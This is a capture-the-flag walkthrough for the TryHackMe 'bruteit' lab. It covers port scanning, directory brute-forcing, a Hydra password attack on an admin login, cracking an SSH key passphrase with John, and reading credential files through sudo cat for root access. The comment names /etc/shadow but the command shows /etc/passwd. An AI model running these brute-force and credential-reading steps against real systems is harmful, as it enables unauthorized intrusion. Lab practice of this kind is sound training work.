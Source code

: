 # 5 - bruteit

Room Link --> [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

Starting with an Nmap search:

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p- -Pn -n 10.10.43.114 --min-rate 20000

# results:
ports 22 and 80 are open.
```
{% endcode %}

Dirbusting with gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.43.114 -w /usr/share/wordlists/dirb/common.txt -t 300 2>/dev/null

# results:
Found a secret dir --> /admin
```
{% endcode %}

[http://10.10.43.114/admin/](http://10.10.43.114/admin/) --> this takes us to a login page, we viewed source code, and found the username is "admin".

Bruteforcing Login with Hydra.

From the developers option we craft our hydra payload.

<figure><img src=".gitbook/assets/Screenshot_20230901_085800.png" alt=""><figcaption><p>POST request to /admin/</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot_20230901_085820.png" alt=""><figcaption><p>POST data values</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>grep keyword</p></figcaption></figure>

Our payload will now be:

{% code overflow="wrap" lineNumbers="true" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.43.114 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login with credentials:

<figure><img src=".gitbook/assets/Screenshot_20230901_085256.png" alt=""><figcaption></figcaption></figure>

There's an SSH private key on the page, after downloading it, and trying to use it to login with "john" as username to SSH, it requested for a key.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use "ssh2john" to crack it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we convert the private key to john crackable format.
ssh2john id_rsa > hash.txt

# crack with john.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can login to SSH now:

```
# give required permissions for the key
chmod 600 id_rsa

# login
ssh john@10.10.43.114 -i id_rsa
```

Login Success.

User flag is there.

### Privilege Escalation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l

# there is a "/bin/cat" binary, we go to gtfobins and check how to exploit it.
# we can cat the /etc/shadow content, and crack root password.
sudo /bin/cat /etc/passwd
# then crack it with john.
su root # input password and BOOM!
```
{% endcode %}
